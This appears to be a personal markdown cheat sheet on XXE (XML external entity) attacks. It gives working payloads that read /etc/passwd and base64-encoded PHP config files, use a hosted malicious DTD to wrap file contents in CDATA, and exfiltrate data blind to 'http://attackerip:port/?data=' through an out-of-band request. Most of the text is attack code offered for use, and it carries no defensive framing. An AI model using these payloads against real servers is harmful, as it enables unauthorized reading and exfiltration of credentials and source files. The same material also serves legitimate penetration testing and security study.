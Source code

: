 # XXE - XML eXternal Entities 

Tags : 


XXE occurs when user input is taken as xml and not using any protections

## Encodings
```xml
% = &#x25;
& = &#x26;
' = &#x27;
```

## Reading File Contents

we can create an entity in the internal dtd with pointing to the file name and we can use this in the xml tag field that gets reflected in the response 
Entity is just like variable in programming language and we can refer to any value

```xml
<?xml version="1.0" encoding='UTF-8'>
<!DOCTYPE test [
<!ENTITY pwn SYSTEM "file:///etc/passwd">
]>

<test>
<email>
&pwn;
</email>
</test>
```

we can also use php wrapper to get contents of php file 

```xml
<!ENTITY pwn SYSTEM "php://filter/convert.base64-encode/resource=config.php"
```

we can use **CDATA** which is character data to get filecontents exactly without missing any characters 
like we can get contents of php file 
format of CDATA is

`<![CDATA[ ourfilecontents ]]>`

we can create two entities which hold left side of ourfilecontents and right side respectively
now lets use this 

```xml
<?xml>
<!DOCTYPE test [
<!ENTITY % start "<![CDATA[">
<!ENTITY % end "]]>">
<!ENTITY % filecontents SYSTEM "file:///etc/passwd">
<!ENTITY % pwn "<!ENTITY exploit %start;%filecontents;%end;>">
%pwn;
]>

<test>
<email>
&exploit;
</email>
</test>
```

above doesnot work because xml parser gives error when u include an entity inside parameter entity
solution is we have to host our dtd on webserver 
and we need to refer that in the internal dtd 
 
lets write our malicious.dtd
malicious.dtd
```
<!ENTITY % start "<![CDATA[">
<!ENTITY % end "]]>">
<!ENTITY % filecontents SYSTEM "file:///etc/passwd">
<!ENTITY % pwn "<!ENTITY exploit %start;%filecontents;%end;>">
%pwn;
```

in the internal dtd we can refer our 'exploit' entity 

```xml
<?xml version="1.0" encoding='UTF-8'>
<!DOCTYPE test [

<!ENTITY % dtd SYSTEM "http://attackerip/malicious.dtd">
%dtd;
]>

<test>
<email>
&exploit;
</email>
</test>
```

now you get the exact data , we can also get contents of php file 
try to get other php files like db.php or config.php etc


## Blind XXE with OOB 

if there is no xml tags in the server response then we cant see output 
in that case we can make server to make http requests to our webserver

we can also exfiltrate data in the get request to our server 

Making a simple get request

```xml
<?xml version="1.0" encoding='UTF-8'>
<!DOCTYPE test [

<!ENTITY % dtd SYSTEM "http://attackerip/">
%dtd;
]>

<test>
<email>
admin@gmail.com
</email>
</test>
```

this will make the get request to the webserver 
if you see the request then you can start extracting data 

like in the previous case , we will host our malicious dtd on our server and we change entity to make get request along with the data
we will encode file contents in base64 as it will be easy to send 

malicious.dtd
```
<!ENTITY % filecontents SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % pwn "<!ENTITY exploit SYSTEM 'http://attackerip:port/?data=%filecontents;>">
%pwn;
```

now we can refer the exploit entity in our xml data same like previous
```xml
<?xml version="1.0" encoding='UTF-8'>
<!DOCTYPE test [
<!ENTITY % dtd SYSTEM "http://attackerip:port/malicious.dtd">
%dtd;
]>

<test>
<email>
&exploit;
</email>
</test>
```

we can also make that entity a parameter entity 

malicious.dtd
```
<!ENTITY % filecontents SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % pwn "<!ENTITY % exploit SYSTEM 'http://attackerip:port/?data=%filecontents;>">
%pwn;
%exploit;
```

now you no need to refer this entity in xml data , just refer the dtd file and you will get the data

dont host webserver using netcat , host using python or php 

